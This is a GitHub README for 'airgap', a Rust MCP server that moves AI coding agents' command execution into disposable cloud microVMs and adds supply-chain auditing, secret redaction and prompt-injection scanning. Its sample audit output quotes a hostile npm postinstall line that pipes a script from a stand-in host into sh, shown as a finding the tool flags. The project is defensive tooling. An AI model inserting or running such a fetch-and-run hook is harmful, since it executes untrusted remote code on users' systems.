

# airgap

[](https://github.com/dhruvil-codes/airgap/actions/workflows/ci.yml)
[](https://www.rust-lang.org/tools/install)
[](https://modelcontextprotocol.io/)
[](#quickstart)
[](#license)
[](https://m8ven.ai/mcp/dhruvil-codes/airgap)

**Disposable GMI AgentBox microVM execution, supply-chain auditing, and secret-redacting security boundary for AI coding agents.**

> [!NOTE]
> AI coding agents such as Claude Code, Cursor, Droid and Windsurf routinely run untrusted scripts, build unfamiliar repositories, reproduce issues and execute test suites. Doing that on a developer workstation exposes it to malicious install hooks, supply-chain attacks and credential theft. airgap is a local [Model Context Protocol](https://modelcontextprotocol.io/) server that moves that execution into disposable GMI cloud microVMs, and scrubs secrets locally before logs or untrusted text are shown or sent to a model. Submitted commands never run on your machine.

> [!WARNING]
> Early development. Offline tests and release builds pass on Linux, macOS and Windows. Live sandbox runs and inference work on the tested account; live patch verification currently gets HTTP 403 from GMI. See the [validation record](docs/validation.md).

## Architecture



Only files the agent passes explicitly are uploaded; the server never reads your working tree on its own. Sandbox output is redacted before it reaches the agent, and every sandbox and template is deleted after the run. Details: [architecture](docs/architecture.md) and [threat model](docs/security-model.md).

## Why airgap?

| | Local host execution | Docker on host | airgap cloud microVM |
| --- | --- | --- | --- |
| Host contamination risk | High | Medium (shared kernel, mounted volumes) | None from executed code; it runs remotely |
| Needs local Docker daemon or VMs | No | Yes | No |
| Startup overhead | None | Local image pull and build | Remote provisioning; no local build (a new template can take minutes) |
| Pre-execution dependency audit | None | None | `airgap_audit_supply` |
| Secret scrubbing in logs | None | None | Automatic on sandbox output; `airgap_redact_secrets` for any text |
| Prompt-injection defense | None | None | Model-assisted `airgap_scan_injection` |

## Quickstart

**1. Install.** The installers download a published release, verify its SHA-256 checksum and run `airgap setup --yes`.

```sh
# macOS / Linux
curl -fsSL https://raw.githubusercontent.com/dhruvil-codes/airgap/main/scripts/install.sh | bash
```

```powershell
# Windows PowerShell
irm https://raw.githubusercontent.com/dhruvil-codes/airgap/main/scripts/install.ps1 | iex
```

If no release is published yet, or you prefer source, use Cargo (Rust 1.89+ and a native linker):

```sh
cargo install --git https://github.com/dhruvil-codes/airgap --locked
```

**2. Configure your editors.** Run this from your workspace:

```sh
airgap setup            # detected editors; Cursor, Claude Code and VS Code if none detected
airgap setup --cursor   # one editor only
airgap setup --rules-only --yes   # agent routing rules only
```

Setup registers the server and adds a managed routing-rule block to `.cursorrules` and `CLAUDE.md`. GMI keys are written only to user-level configs (`~/.claude.json`, `~/.cursor/mcp.json`). Workspace files such as `.mcp.json`, `.cursor/mcp.json` and `.vscode/mcp.json` never store credentials, and setup removes keys it finds there. Set `GMI_AGENTBOX_API_KEY` and `GMI_MAAS_API_KEY` first (see [.env.example](.env.example)); local scanners work without them.

**3. Check health.**

```sh
airgap doctor
```

Doctor checks both keys, the MaaS gateway, AgentBox compute eligibility, the configured model, and every registered editor config, labeled by client and scope. It creates no billable resources.

## Using it from your agent

Reload your editor and prompt normally. The server instructions and routing rules tell the agent to pick and chain the tools itself:

| You say | The agent calls |
| --- | --- |
| "use airgap and run tests" | `airgap_audit_supply` on the manifest, then `airgap_sandbox_run` |
| "use airgap to verify this PR diff" | `airgap_verify_patch` (falls back to `airgap_sandbox_run` on a provider error) |
| "use airgap to audit dependencies" | `airgap_audit_supply` |
| "triage issue #42" | `airgap_scan_injection` on the issue text before acting on it |

Routing rules guide tool choice; they cannot enforce it. Adding this server does not disable the agent's own terminal tools, so configure client permissions if all execution must go through airgap.

Each tool returns a compact Markdown card for the agent plus the full JSON as `structuredContent`. These two cards are real output from the release binary:

```markdown
🛡️ **Airgap Supply-Chain Audit** · ⏱️ **5ms**
🚨 **Risk Level: HIGH** (2 flagged items)

- npm script postinstall: curl -s https://example.invalid/x.sh | sh
- dependencies/left-pad: remote or local dependency requires review

🔒 *Manifest heuristics evaluated. Local host protected.*
```

```markdown
🛡️ **Airgap Secret Redactor** · ⏱️ **5ms**
🔒 **1 Secret Redacted**

> DATABASE_URL=postgres://app@db/prod
> DB_PASSWORD=[REDACTED]
> max_tokens = 4096
```

A sandbox card has the same shape. Its duration includes remote provisioning, so expect seconds rather than milliseconds (the value below is illustrative):

````markdown
🛡️ **Airgap Sandbox** · `docker.io/library/rust:1-bookworm` · ⏱️ **41870ms**
✅ **Status: PASSED** (Exit Code: 0)

```
running 1 test
test arithmetic ... ok

test result: ok. 1 passed; 0 failed; 0 ignored; 0 measured; 0 filtered out
```

🔒 *Host Protected: Executed inside isolated GMI AgentBox MicroVM. Zero local modifications.*
````

## Tools

| Tool | Runs in | What it does |
| --- | --- | --- |
| `airgap_sandbox_run` | AgentBox | Runs a command against an explicit file snapshot. Picks a Rust, Node.js or Python image from the files, or uses `image`. Returns exit code, redacted stdout/stderr and duration. |
| `airgap_verify_patch` | AgentBox | Applies a unified diff to a clean base snapshot and runs the test command. Verified only with exit 0, untruncated logs and a recognized Rust or pytest summary. If the provider returns an error (currently HTTP 403 on the tested account), agents are told to apply the diff and run tests with `airgap_sandbox_run`. |
| `airgap_scan_injection` | MaaS | Classifies issue, PR, log or feedback text as clean, suspicious or malicious. Text is redacted locally first; malformed model output never yields a clean verdict. |
| `airgap_redact_secrets` | Local | Scrubs private keys, known token formats, credential assignments and high-entropy strings. Sends nothing to the cloud. |
| `airgap_audit_supply` | Local | Flags install-time scripts and alternate dependency sources in `package.json`, `requirements.txt` or `Cargo.toml`. Heuristics only; no advisory database. |
| `airgap_configure` | Local | Changes the default model and timeout (1–1800 s) for later calls. |
| `airgap_audit_repo` | AgentBox + MaaS | Six-phase defensive static review of explicit files. Findings must quote the exact source line; runtime exploitability is not tested. |

Inputs, limits, configuration variables and cleanup behavior are in the [tool reference](docs/reference.md). Example arguments: [examples/sandbox-run.json](examples/sandbox-run.json), [examples/redact-secrets.json](examples/redact-secrets.json).

## Security boundary

- GMI sandboxes have outbound internet. "airgap" refers to the host execution boundary; this is not an offline or physically air-gapped system.
- Files you send to a sandbox or model leave your machine. Sandbox snapshots are uploaded unchanged; injection-scan text and audit sources are redacted first.
- Provider base URLs are read only from the process environment, so a cloned repository's `.env` cannot redirect your keys.
- Scanners and model verdicts can be wrong. Receipts are unsigned SHA-256 integrity records, not attestations.

Read the [threat model](docs/security-model.md) and the [security policy](SECURITY.md) before relying on it.

## Documentation

- [Setup, installers and doctor](docs/setup.md)
- [Tool and configuration reference](docs/reference.md)
- [Architecture and source map](docs/architecture.md)
- [Threat model](docs/security-model.md)
- [Validation results and known limitations](docs/validation.md)
- [Releasing](docs/releasing.md), [changelog](CHANGELOG.md), [contributing](CONTRIBUTING.md), [code of conduct](CODE_OF_CONDUCT.md)

## Development

```sh
cargo fmt --check
cargo check --locked
cargo test --locked --all-targets
cargo clippy --locked --all-targets -- -D warnings
cargo build --release --locked
```

Tests run offline against local HTTP mocks and a real stdio child process; they need no GMI credentials and create no billable resources. On memory-constrained Windows machines, see [CONTRIBUTING.md](CONTRIBUTING.md).

## License

Licensed under either [MIT](LICENSE-MIT) or [Apache-2.0](LICENSE-APACHE), at your option.

Maintained by [Dhruvil Mistry](https://github.com/dhruvil-codes). An independent project, not an official GMI Cloud product.
